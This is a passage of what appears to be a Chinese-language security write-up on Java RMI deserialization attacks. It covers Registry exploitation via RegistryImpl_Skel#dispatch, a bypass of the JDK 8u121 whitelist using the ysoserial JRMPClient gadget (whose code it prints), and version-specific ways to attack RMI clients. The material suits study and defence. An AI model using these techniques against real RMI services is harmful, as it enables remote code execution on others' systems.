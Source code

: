 Registry成功反序列化，并且RCE：

![][p5]

根据Registry返回的报错信息也可以看到，是因为RegistryImpl_Skel#dispatch中进行了反序列化导致的RCE。

现在理清一下思路，攻击Registry，只需要观察RegistryImpl_Skel#dispatch方法的几个case，看下哪个case里面存在readObject反序列化操作。我们看到case 0（bind(String, Remote)）和case 3（rebind(String, Remote)）中存在 `(java.rmi.Remote) in.readObject();` 进行反序列化。但是其他case中，却只有 `(java.lang.String) in.readObject();` 反序列化。

前面我们演示过程中，攻击者传递的是一个恶意的Remote类型对象，在case 0的时候调用了 `(java.rmi.Remote) in.readObject();` 反序列化达到RCE。但是其实理论上，只有有readObject，就都能进行反序列化RCE，现在问题是：攻击者通过RegistryImpl_Stub调用的各个方法（bind()、unbind()、rebind()等），都有参数类型限制，比如bind方法，就限制形参类型为：String和Remote。我们无法直接使用这些方法传递任意类型的恶意序列化对象，例如下面所示，我试图传递一个Object类型的对象，但是参数类型不符合，导致编译不通过，无法发送：

![][p6]

但是因为发送端是我们攻击者完全可控的，我们其实可以绕~通过重写bind()函数等方式控制发送其他任意类型的序列化数据，达到Attack Registry的目的（当然，还有很多其他方式可以发送任意类型对象）。

现在再分析当JDK>=8u121时的情况。我们把JDK的版本调到8u211，再次启动攻击，发现Registry返回如下错误提示：

![][p7]

这是因为JDK8u121的时候，加入了反序列化白名单，我们Debug到RegistryImpl#registryFilter函数，即可看到有白名单限制：

![][p8]

这时候，ysoserial中就横空出世一个JRMPClient的Gadget：

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
```

并且这个类（及其父类）在白名单内，是可以被Registry反序列化的。那么这个Gadget的触发点在哪里呢？以下是被攻击的Registry的调用栈：

![][p9]

整个过程其实就是：被攻击的Registry反序列化JRMP Gadget后会与攻击者的RMI Registry连接上，执行分布式GC（调用了GCImpl_Stub#dirty可体现出），并且攻击者的RMI Registry会发送恶意的反序列化对象给Registry靶机，最终造成反序列化漏洞。

总而言之，**JRMP Gadget主要是在DGC层造成了一个反序列化，但是这个漏洞在JDK8u231进行了修复** 。也就是如果小于JDK<8u231，是可以用JRMP Gadget攻击任何RMI实体的（Client、Registry、Server）。但是后续 **存在 `UnicastRemoteObject Gadget` 可以继续绕过JDK8u231的修复，在JDK8u241再次进行了修复** 。

### 攻击Client

对于攻击方式，当Client使用 `InitialContext#lookup()` 来进行RMI调用的话，还可以在攻击机的Registry中使用 `Refererence Gadget` 来攻击Client。也就是说，存在如下攻击方式（以下分析基于JDK8u66）：

1. Client调用RegistryImpl_Stub#lookup()等方法，反序列化攻击者的Registry返回的恶意序列化对象，造成攻击，需要靶机有Gadget；
2. JDK Version < JDK8u121时，Client使用 `InitialContext#lookup()` 方式来进行RMI调用，此时可以使用 `Refererence Gadget` 来攻击Client，无需靶机存在反序列化Gadget。JDK8u121之后添加了trustURLCodebase限制，RMI下无法使用此方式进行攻击；
3.  JDK8u121 <= JDK Version <= JDK8u191时，Client使用 `InitialContext#lookup()` 方式来进行Ldap调用，此时可以使用 `Refererence Gadget` 来攻击Client，无需靶机存在反序列化Gadget。
